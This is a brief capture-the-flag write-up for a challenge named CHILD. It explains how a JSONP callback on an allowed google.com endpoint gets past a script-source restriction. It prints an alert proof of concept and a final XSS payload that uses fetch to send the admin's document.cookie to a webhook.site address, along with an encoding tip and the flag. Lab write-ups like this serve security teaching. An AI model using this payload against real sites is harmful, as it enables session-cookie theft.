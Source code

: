 ```yaml
---
layout: default
title: CHILD
---
```




Here we can run scripts only from the subdomain of `*.google.com`.

However, using this github repo [JSONBee](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt), we can find snippets that let us run our code :)

I am using this snippet:
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
```

And, as you can see:
![XSS poc](./images/CHILD_xss_poc.png)



This will be our payload to the admin:
```
?inject=?inject=<script%20src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies=%27%252bdocument.cookie);"></script>
```
notice to base encode `+` twice.


![win picutre](./images/CHILD.png)


**Flag:** ***`FLAG{I_hacked_google.com_and_it_was_ezpz}`*** 
